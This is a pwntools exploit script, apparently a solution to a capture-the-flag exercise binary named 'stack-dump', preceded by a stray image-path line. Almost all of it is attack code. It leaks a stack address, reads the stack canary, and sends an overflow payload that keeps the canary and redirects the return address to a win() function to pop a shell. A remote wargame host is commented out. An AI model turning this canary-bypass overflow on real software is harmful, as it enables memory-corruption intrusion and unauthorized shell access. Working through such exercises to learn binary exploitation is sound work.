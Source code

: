 from pwn import *

# p = remote("plsdonthaq.me", 2004)
p = process("./stack-dump")

# read the stack pointer provided, and use it to find the canary address
p.recvuntil("pointer")
address = p.recvuntil("a)", drop=True).strip()
address = int(address, 16) + 0 #offset

# input the canary address
p.recvuntil("quit")
p.sendline("a")

p.recvuntil("len:")
p.sendline("4")
p.sendline(p32(address))

# get the value at the canary address
p.recvuntil("quit")
p.sendline("b")

p.recvuntil(":")
canary = p.recvuntil("a)", drop=True).strip()[0:5]

# overwrite the return address
p.recvuntil("quit")
p.sendline("a")

p.recvuntil("len:")
p.sendline("96")

payload = b""
payload += b"A" * 0 # offset
payload += canary # canary value
payload += p32(0x080486c6) * (4) # address of win()
p.sendline(payload)

# the return address is overwritten, so quitting should pop the shell
p.recvuntil("quit")
p.sendline("d")

p.interactive()
==================================================================
